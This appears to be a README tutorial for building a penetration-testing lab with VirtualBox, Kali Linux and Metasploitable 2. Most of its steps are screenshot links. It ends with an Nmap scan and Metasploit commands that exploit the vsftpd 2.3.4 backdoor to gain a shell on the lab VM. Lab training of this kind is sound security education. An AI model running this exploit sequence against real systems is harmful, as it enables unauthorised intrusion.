 # Set Up Penetration Lab

## Objective

Setting up a penetration testing lab is essential for practicing and improving your cybersecurity skills in a safe and controlled environment. This tutorial will guide you through creating a virtual lab using VirtualBox, Kali Linux (for offensive security), and a vulnerable virtual machine (VM) like Metasploitable 2.

### Skills Learned

- Virtual Networking Configuration: Understanding how to set up and configure isolated network environments (e.g., host-only, NAT) to securely connect VMs within a penetration testing lab.
  
- Operating System Installation and VM Management: Gaining hands-on experience in installing and managing virtual machines (VMs), such as configuring Kali Linux and Metasploitable 2 for security testing.

- Service and Port Scanning: Learning to use tools like Nmap to scan for open ports and services on target VMs, gathering essential information for vulnerability assessments.

- Exploit and Vulnerability Analysis: Understanding how to identify and exploit known vulnerabilities in services (e.g., FTP, SSH) using tools like Metasploit, which aids in assessing system weaknesses.

- Safe Practice of Offensive Security Techniques: Acquiring skills to safely execute offensive security techniques within a controlled lab environment, reducing risks to production environments. 

### Tools Used

- Virtualization Software (VirtualBox or VMware): Used to create and manage the Kali Linux and Metasploitable 2 virtual machines on a single host system.

- Kali Linux: A penetration testing OS preloaded with security tools like Metasploit, Nmap, and Wireshark, providing a complete environment for vulnerability testing.

- Metasploitable 2: A deliberately vulnerable virtual machine for practicing scanning, exploitation, and vulnerability analysis in a controlled lab setup. 


## Steps


Step 1

Download Kali Linux 

https://imgur.com/a/v0Sw94K

Import Kali Linux into Virtual Box

https://imgur.com/a/FfjZw29

Step 2 Download Metasploitable 2

https://imgur.com/a/ryM9dii

Extract zip file for Metasploitable 2

https://imgur.com/a/ytJPYny

Add vdmk file to virtual box

https://imgur.com/a/cbqQ15Z

Create a new VM in Virtual Box for Metasploitable 2

https://imgur.com/a/xvRcZCj

Start Metasploitable 2 Virtual Machine

https://imgur.com/a/mZfOQhu

Step 3 Configure Network Settings

https://imgur.com/a/t3orTE7

Step 4: Verfy Network Connectivity


Verify Network Connectivity on Kali Linux

https://imgur.com/a/4ybqxFa

Verify Network Connectivity on Metasploitable 2 

https://imgur.com/a/HQ9eKvz

Test Connectivity

https://imgur.com/a/EmxXlWy

 Step 5: Set Up Penetration Testing Tools on Kali Linux

 Update Kali Linux

https://imgur.com/a/cHq3NQc

Install Additional Tools

https://imgur.com/a/2cQh5Of

https://imgur.com/a/bjQrJRq

https://imgur.com/a/nMII0th

Step 6: Conduct Basic Penetration Testing

Network Scanning with Nmap

https://imgur.com/a/PHpjy7j

https://imgur.com/a/Mk456dC

Exploitation with Metasploit

https://imgur.com/a/zvA75iV

Search for an Exploit to use against Metasploitable 2

https://imgur.com/a/uWoLYhi

Use the exploit and set the target

https://imgur.com/a/MtOZwo1

https://imgur.com/a/cD93YsN

Step 7: Document Network Diagram

https://imgur.com/a/sWNLkej

Scan Results & Exploitation Details



Step 7: Network Diagram

https://imgur.com/a/sWNLkej

   

A basic network setup includes:
- Kali Linux VM: Offensive security testing machine.
- Metasploitable 2 VM: Deliberately vulnerable virtual machine for testing.
- Host-only Network**: Allows VMs to communicate with each other and the host machine without external network access.

Here’s a basic visual representation:

1. Kali Linux VM
2. Metasploitable 2 VM
3. Host-Only Network (192.168.x.x)

---

 2. Documenting the Nmap Scan Results

On the Kali Linux VM, you can run an Nmap scan to identify open ports and services on the Metasploitable 2 VM.

 Nmap Command

```bash
nmap -sV -A 192.168.x.y
```

- `-sV`: Detects version info for services.
- `-A`: Enables OS detection, script scanning, and traceroute.
- Replace `192.168.x.y` with the IP of the Metasploitable 2 VM.


| Port | State | Service         | Version            |
|------|-------|-----------------|--------------------|
| 21   | open  | ftp             | vsftpd 2.3.4      |
| 22   | open  | ssh             | OpenSSH 4.7p1     |
| 23   | open  | telnet          | -                 |
| 25   | open  | smtp            | Postfix smtpd     |
| 80   | open  | http            | Apache 2.2.8      |
| 3306 | open  | mysql           | MySQL 5.0.51a     |
| 5432 | open  | postgresql      | PostgreSQL DB     |
| 8180 | open  | http-alt        | Apache Jserv 1.3  |




3. Exploitation Steps**

Using vsftpd 2.3.4 which is a known vulnerability in Metasploitable 2:

1. Search for Exploits in Metasploit
   ```bash
   msfconsole
   ```
   ```bash
   search vsftpd
   ```

2. Select the Exploit Module
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```

3. Set the Target Host
   ```bash
   set RHOSTS 192.168.x.y
   ```

4. Run the Exploit**
   ```bash
   exploit
   ```

5. Gain Access**
   After running the exploit, you may gain a shell on the target machine.




 

  












